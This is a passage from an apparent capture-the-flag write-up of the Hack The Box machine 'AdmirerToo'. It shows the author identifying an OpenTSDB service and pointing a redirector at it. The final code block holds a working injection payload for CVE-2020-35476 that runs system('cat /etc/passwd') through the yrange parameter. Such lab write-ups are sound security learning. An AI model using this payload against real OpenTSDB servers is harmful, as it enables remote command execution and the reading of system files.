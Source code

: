 Click forward and you'll see a GET request in Burp:

![admirertoo-get-request](/assets/images/2022-02-28-22-53-33.png)

Click forward again and switch back to the browser to see the reflected output:

![admirertoo-opentsdb](/assets/images/2022-03-01-22-10-37.png)

## OpenTSDB

You can see the title of the page says OpenTSDB. I've never heard of this but a quick search found the GitHub repo for it [here](https://github.com/OpenTSDB/opentsdb). And a look for exploits found [this](https://nvd.nist.gov/vuln/detail/CVE-2020-35476) CVE, with a POC [here](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-35476.yaml) that tries to leak the passwd file. I also found further info in the issue raised [here](https://github.com/OpenTSDB/opentsdb/issues/2051) for the project.

So I used the example and changed my redirector to look like this:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27cat+/etc/passwd%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
serving at port 80
```
